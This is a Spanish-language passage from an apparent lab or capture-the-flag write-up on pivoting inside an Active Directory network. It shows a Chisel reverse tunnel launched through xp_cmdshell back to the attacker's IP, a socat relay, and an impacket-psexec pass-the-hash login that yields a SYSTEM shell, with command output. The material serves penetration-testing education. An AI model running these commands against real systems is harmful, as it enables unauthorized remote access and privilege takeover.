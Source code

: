 Desde el **AD2**, usemos **Chisel** como cliente para conectarnos al **servidor de Chisel** de nuestra máquina, siendo aquí donde aplicamos el **Reverse Port Forwarding**. 

Pero antes de eso, debemos identificar qué puertos serían útiles para que tengamos acceso desde nuestra máquina.

Si queremos usar la herramienta **psexec**, debemos tener acceso al **puerto 445 y 135** (este último es "opcional", pero es posible que la herramienta lo necesite, por lo que es mejor tenerlo presente).

Entonces, debemos indicarlo al momento de conectarnos al **servidor de Chisel**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "C:\Temp\chisel.exe client Tu_IP:4444 R:1445:172.16.20.2:445 R:1337:172.16.20.2:135"
```
Bien, usamos nuestro **puerto 1445** para el **puerto 445** de la **máquina AD2** y el **puerto 1337** para el **puerto 135**.

Podemos comprobar que tenemos acceso al **servicio SMB** de la **máquina AD2**, si usamos **netexec** para que acceda a este servicio:
```bash
nxc smb 127.0.0.1 --port 1445
SMB         127.0.0.1       1445   DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:darkzero.ext) (signing:True) (SMBv1:False)
```
Funciona.

Ya podemos usar **psexec** en conjunto con **socat** (este lo usamos para indicar el puerto que usamos para el **servicio SMB**) para ganar acceso a la **máquina AD2**:
```bash
socat TCP-LISTEN:445,reuseaddr,fork TCP:127.0.0.1:1445 & impacket-psexec Administrator@127.0.0.1 -hashes :6963aa...
[1] 378518
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 127.0.0.1.....
[*] Found writable share ADMIN$
[*] Uploading file IAPRzjbg.exe
[*] Opening SVCManager on 127.0.0.1.....
[*] Creating service hfYa on 127.0.0.1.....
[*] Starting service hfYa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2113]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
